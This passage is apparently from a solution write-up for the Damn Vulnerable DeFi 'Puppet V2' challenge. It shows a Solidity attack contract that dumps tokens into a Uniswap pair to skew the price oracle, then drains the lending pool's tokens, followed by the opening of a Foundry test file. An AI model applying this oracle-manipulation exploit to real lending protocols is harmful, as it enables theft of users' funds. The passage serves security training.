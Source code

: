 ```solidity
        address _uniswapPair,
        address _lendingPool,
        address _router,
        address _token,
        address _weth,
        address _recovery
    ) payable {
        _initializeOwner(msg.sender);

        uniswapPair = _uniswapPair;
        lendingPool = _lendingPool;
        router = _router;
        token = _token;
        weth = _weth;
        recovery = _recovery;
    }

    function attack(uint256 amountIn, uint256 amountOutMin) external onlyOwner {
        IERC20(token).approve(router, amountIn);

        // swap Token to WETH
        address[] memory path;
        path = new address[](2);
        path[0] = token;
        path[1] = weth;
        IUniswapV2Router01(router).swapExactTokensForTokens(
            amountIn, amountOutMin, path, address(this), block.timestamp
        );

        // borrow all tokens in PuppetV2 by weth
        uint256 wethBalance = IERC20(weth).balanceOf(address(this));
        uint256 tokenBalance = IERC20(token).balanceOf(lendingPool);
        IERC20(weth).approve(lendingPool, wethBalance);
        IPuppetPoolV2(lendingPool).borrow(tokenBalance);

        // transfer all the rescued tokens to recovery address
        IERC20(token).transfer(recovery, tokenBalance);
    }
}
```

### Test contract

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {IUniswapV2Pair} from "@uniswap/v2-core/contracts/interfaces/IUniswapV2Pair.sol";
import {IUniswapV2Factory} from "@uniswap/v2-core/contracts/interfaces/IUniswapV2Factory.sol";
import {IUniswapV2Router02} from "@uniswap/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol";
import {WETH} from "solmate/tokens/WETH.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {PuppetV2Pool} from "../../src/puppet-v2/PuppetV2Pool.sol";
import {AttackPuppetV2} from "../../src/puppet-v2/AttackPuppetV2.sol";

contract PuppetV2Challenge is Test {
    address deployer = makeAddr("deployer");
    address player = makeAddr("player");
    address recovery = makeAddr("recovery");

```